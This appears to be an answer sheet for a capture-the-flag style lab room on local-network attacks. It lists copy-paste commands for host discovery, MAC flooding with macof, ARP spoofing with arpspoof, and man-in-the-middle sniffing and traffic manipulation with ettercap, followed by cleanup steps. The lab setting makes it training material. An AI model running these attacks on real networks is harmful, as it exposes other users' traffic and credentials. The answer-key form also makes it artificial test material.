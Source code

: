 # Tasks — Short answers / copy-paste commands


> Use these answers as a reference to submit to the room. Replace placeholders (`<iface>`, `<victim-ip>`, `<gateway-ip>`) before running.


## Task 1 — Getting Started
- Confirm machine started and you can ping it:
- `ping -c 3 <target-ip>`


## Task 2 — Initial Access (Discovery)
- Find targets on subnet:
- `sudo arp-scan -l`
- `sudo nmap -sn 10.10.0.0/24`
- Note victim IP (example answer): `10.10.20.15` and MAC `00:11:22:33:44:55` (use actual values from your scan)


## Task 3 — Network Discovery
- Check your interface and MAC:
- `ip a`
- `ip neigh` (shows ARP cache)


## Task 4 — Passive Network Sniffing
- Capture ARP packets for a short time:
- `sudo tcpdump -i <iface> arp -w task4_arp.pcap`
- Wireshark display filter to view ARP: `arp`


## Task 5 — Sniffing while MAC Flooding
- Start MAC flooding:
- `sudo macof -i <iface>`
- In another terminal capture:
- `sudo tcpdump -i <iface -w macflood.pcap`
- Expected result: you should see other hosts' traffic appearing in your capture that previously was not visible.


## Task 6 — Man-in-the-Middle: Intro to ARP Spoofing
- Enable IP forward:
- `sudo sysctl -w net.ipv4.ip_forward=1`
- Run arpspoof to poison victim and gateway (two terminals):
- `sudo arpspoof -i <iface> -t <victim-ip> <gateway-ip>`
- `sudo arpspoof -i <iface> -t <gateway-ip> <victim-ip>`


## Task 7 — Man-in-the-Middle: Sniffing
- Start capture with tcpdump or Wireshark while arp spoofing:
- `sudo tcpdump -i <iface> -w mitm.pcap`
- Check for HTTP, plain-text credentials, or interesting ARP behavior.


## Task 8 — Man-in-the-Middle: Manipulation
- Use `ettercap` to perform MITM and optionally filters to modify traffic.
- `sudo ettercap -T -q -M arp:remote /<victim-ip>/ /<gateway-ip>/`
- Example: intercept and inject a simple HTTP response using an etter filter (more advanced). Many rooms only require demonstrating MITM, not complex injection.


## Task 9 — Conclusion
- Stop spoofing and flooding and restore normal network state:
- `pkill macof arpspoof ettercap bettercap`
- `sudo sysctl -w net.ipv4.ip_forward=0`
- Answer summary questions in the room with your observations (visible traffic, ARP table changes, success of manipulation).
  
